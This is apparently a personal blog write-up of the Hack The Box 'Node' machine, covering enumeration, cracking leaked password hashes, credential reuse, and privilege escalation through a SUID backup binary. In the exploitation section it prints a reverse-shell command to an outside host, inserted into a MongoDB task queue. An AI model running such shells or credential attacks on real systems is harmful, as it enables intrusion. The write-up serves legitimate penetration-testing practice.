 Title: HTB Node box writeup
Tags: oscp, htb, nodejs, os command injection, mongodb
Summary: Walkthrough for this one
Date: 2020-09-27 22:00
Status: published

# Enumeration
nmap sS all range:
```text
    Nmap 7.80 scan initiated Fri Sep 25 19:13:46 2020 as: nmap -sS -p- -oA enum/nmap-sS-all 10.10.10.58
    Nmap scan report for node.htb (10.10.10.58)
    Host is up (0.059s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    3000/tcp open  ppp
    Nmap done at Fri Sep 25 19:15:45 2020 -- 1 IP address (1 host up) scanned in 119.96 seconds
```
Scripted scan of these:
```text
    Nmap 7.80 scan initiated Fri Sep 25 19:18:55 2020 as: nmap -sC -A -T4 -p22,3000 -oA enum/nmap-sCAT4-open 10.10.10.58
    Nmap scan report for node.htb (10.10.10.58)
    Host is up (0.056s latency).
    PORT     STATE SERVICE            VERSION
    22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
    |   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
    |_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
    3000/tcp open  hadoop-tasktracker Apache Hadoop
    | hadoop-datanode-info: 
    |_  Logs: /login
    | hadoop-tasktracker-info: 
    |_  Logs: /login
    |_http-title: MyPlace
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    TRACEROUTE (using port 22/tcp)
    HOP RTT      ADDRESS
    1   55.65 ms 10.10.14.1
    2   57.76 ms node.htb (10.10.10.58)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Fri Sep 25 19:19:14 2020 -- 1 IP address (1 host up) scanned in 18.92 seconds
```
Also tried to scan top 1000 UDP ports, but nothing seems to be available there.
Whatweb told that about the website at 3000:
```text
    http://node.htb:3000 [200 OK] Bootstrap
    Country[RESERVED][ZZ]
    HTML5, IP[10.10.10.58]
    JQuery, Script[text/javascript]
    Title[MyPlace]
    X-Powered-By[Express]
    X-UA-Compatible[IE=edge]
```
Looks like web API exposes some interesting info about users:

![mark info](/cstatic/htb-node/api-mark.png)

GET request to `/api/users` will reveal all the available users info. Response:
```json
[
   {
      "_id":"59a7365b98aa325cc03ee51c",
      "username":"myP14ceAdm1nAcc0uNT",
      "password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
      "is_admin":true
   },
   {
      "_id":"59a7368398aa325cc03ee51d",
      "username":"tom",
      "password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
      "is_admin":false
   },
   {
      "_id":"59a7368e98aa325cc03ee51e",
      "username":"mark",
      "password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
      "is_admin":false
   },
   {
      "_id":"59aa9781cced6f1d1490fce9",
      "username":"rastating",
      "password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
      "is_admin":false
   }
]
```
Some non-privileges user passwords are:
```text
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240:spongebob
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73:snowflake
```

# Exploitation
The hash for `myP14ceAdm1nAcc0uNT` account is 'googlable' and maps to `manchester`.
These credentials allow to download some `myplace.backup` which is a password-protected 
ZIP archive encoded in base64. Password was almost immediately cracked with rockyou -
`magicword`. Within is likely the code for the hosted application, a node.js app.
Here's the `package.json`:
```json
{
    "name": "myplace",
    "description": "A secure place to meet new people.",
    "version": "1.0.0",
    "private": true,
    "dependencies": {
        "express": "4.15.x",
        "express-session": "1.15.x",
        "body-parser": "1.17.x",
        "mongodb": "2.2.x"
    }
}
```
Noticed creds for mongo instance: `mark:5AYRft73VtFpc84k@localhost:27017` in app.js.
They work for SSH and we're in:

![mark shell](/cstatic/htb-node/mark-shell.png)

There is interesting process running running `/var/scheduler/app.js`:

![scheduler js](/cstatic/htb-node/scheduler-js.png)

Looks like it's a way to execute code as tom:
```javascript
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
```

So to get tom's shell it's only necessary to insert proper document into the
`scheduler` collection, in this manner: `db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.9/443 0>&1"'})`.
The shell:

![tom shell](/cstatic/htb-node/unpriv-shell.png)

# Privilege escalation
I tried to find files that owned by `admin` group and stumbled upon `/usr/local/bin/backup`
which is also used in MyPlace app to generate source code mirror. Interesting part is that this
binary has suid bit set and owned by root. The executable looks to be custom and has some calls
to the os shell within. It uses `zip` utility:

![zip util str](/cstatic/htb-node/zip-invocation.png)

And after some sanity checks on input it just invokes this, using passed command line parameter
as the part of the command line for zip utility:

![system-invocation](/cstatic/htb-node/system-invocation.png)

However, sanity checks are not thorough enough and may be bypassed to acquire root shell:

![root shell](/cstatic/htb-node/root-shell.png)

The main lesson here was to look at the very detail found, because I overlooked `backup`
utility at first, despite that I found it quite quickly while performing user groups enumeration.
